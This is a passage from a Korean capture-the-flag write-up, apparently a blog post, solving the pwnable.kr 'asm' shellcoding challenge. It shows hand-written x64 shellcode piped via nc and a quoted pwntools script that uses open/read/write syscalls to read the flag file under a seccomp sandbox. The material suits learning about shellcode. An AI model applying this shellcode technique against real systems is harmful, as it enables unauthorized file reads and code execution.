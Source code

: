 ~~~
asm@pwnable:~$ printf "\x48\x31\xC0\x50\x48\xB8\x30\x6F\x30\x6F\x30\x6F\x6E\x67\x50\x48\xB8\x30\x6F\x30\x6F\x30\x6F\x30\x6F\x50\x48\xB8\x30\x30\x30\x30\x30\x30\x30\x30\x50\x48\xB8\x6F\x6F\x6F\x6F\x6F\x30\x30\x30\x50\x48\xB8\x6F\x6F\x6F\x6F\x6F\x6F\x6F\x6F\x50\x48\xB8\x6F\x6F\x6F\x6F\x6F\x6F\x6F\x6F\x50\x48\xB8\x30\x30\x30\x30\x30\x30\x6F\x6F\x50\x48\xB8\x30\x30\x30\x30\x30\x30\x30\x30\x50\x48\xB8\x30\x30\x30\x30\x30\x30\x30\x30\x50\x48\xB8\x6F\x6F\x6F\x6F\x6F\x30\x30\x30\x50\x48\xB8\x6F\x6F\x6F\x6F\x6F\x6F\x6F\x6F\x50\x48\xB8\x6F\x6F\x6F\x6F\x6F\x6F\x6F\x6F\x50\x48\xB8\x6F\x6F\x6F\x6F\x6F\x6F\x6F\x6F\x50\x48\xB8\x6F\x6F\x6F\x6F\x6F\x6F\x6F\x6F\x50\x48\xB8\x6F\x6F\x6F\x6F\x6F\x6F\x6F\x6F\x50\x48\xB8\x6F\x6F\x6F\x6F\x6F\x6F\x6F\x6F\x50\x48\xB8\x6F\x6F\x6F\x6F\x6F\x6F\x6F\x6F\x50\x48\xB8\x6F\x6F\x6F\x6F\x6F\x6F\x6F\x6F\x50\x48\xB8\x6C\x6F\x6F\x6F\x6F\x6F\x6F\x6F\x50\x48\xB8\x69\x73\x5F\x76\x65\x72\x79\x5F\x50\x48\xB8\x6C\x65\x5F\x6E\x61\x6D\x65\x5F\x50\x48\xB8\x79\x5F\x74\x68\x65\x5F\x66\x69\x50\x48\xB8\x69\x6C\x65\x2E\x73\x6F\x72\x72\x50\x48\xB8\x64\x5F\x74\x68\x69\x73\x5F\x66\x50\x48\xB8\x65\x61\x73\x65\x5F\x72\x65\x61\x50\x48\xB8\x5F\x66\x69\x6C\x65\x5F\x70\x6C\x50\x48\xB8\x2E\x6B\x72\x5F\x66\x6C\x61\x67\x50\x48\xB8\x5F\x70\x77\x6E\x61\x62\x6C\x65\x50\x48\xB8\x2F\x74\x68\x69\x73\x5F\x69\x73\x50\x48\xB8\x2F\x61\x73\x6D\x5F\x70\x77\x6E\x50\x48\xB8\x2F\x2F\x2F\x2F\x68\x6F\x6D\x65\x50\x48\x89\xE7\x48\x31\xF6\x48\x31\xC0\x04\x02\x0F\x05\x66\x81\xEC\xFF\x0F\x48\x8D\x34\x24\x48\x89\xC7\x48\x31\xD2\x66\xBA\xFF\x0F\x48\x31\xC0\x0F\x05\x48\x31\xFF\x40\x80\xC7\x01\x48\x89\xC2\x48\x31\xC0\x04\x01\x0F\x05\x48\x31\xC0\x04\x3C\x0F\x05" | nc 0 9026
Welcome to shellcoding practice challenge.
In this challenge, you can run your x64 shellcode under SECCOMP sandbox.
Try to make shellcode that spits flag using open()/read()/write() systemcalls only.
If this does not challenge you. you should play 'asg' challenge :)
give me your x64 shellcode: <tag output>
~~~

근데 왜 위에서 만든 shellcode가 안된건지는 지금도 잘 모르겠다. 근데 알아보기도 귀찮아...
뭔가 path가 길어지면서 position independent하지 않게 만드는 요소가 있었던건가? 안될 이유는 없어보이는데...
풀긴 풀었는데 조금 아쉽다.

다른 사람들은 어떻게 풀었나 싶어 인터넷 검색을 해봤는데 아주 신기한게 있었다

```python
from pwn import *
from socket import *

p = remote('pwnable.kr',9026)
context(arch='amd64', os='linux')

shellcode = ''
shellcode += shellcraft.pushstr('this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong')
shellcode += shellcraft.open('rsp',0,0)
shellcode += shellcraft.read('rax','rsp',100)
shellcode += shellcraft.write(1,'rsp',100)

p.recvuntil('shellcode:')
p.send(asm(shellcode))
log.success(p.recvline())
```

~~~
python asm.py
[+] Opening connection to pwnable.kr on port 9026: Done
[+] <tag output>
[*] Closed connection to pwnable.kr port 9026
~~~


[pwnable.kr]: https://pwnable.kr
[stack_overflow_chroot]: https://unix.stackexchange.com/questions/105/chroot-jail-what-is-it-and-how-do-i-use-it
[online_assembler_link]: https://defuse.ca/online-x86-assembler.htm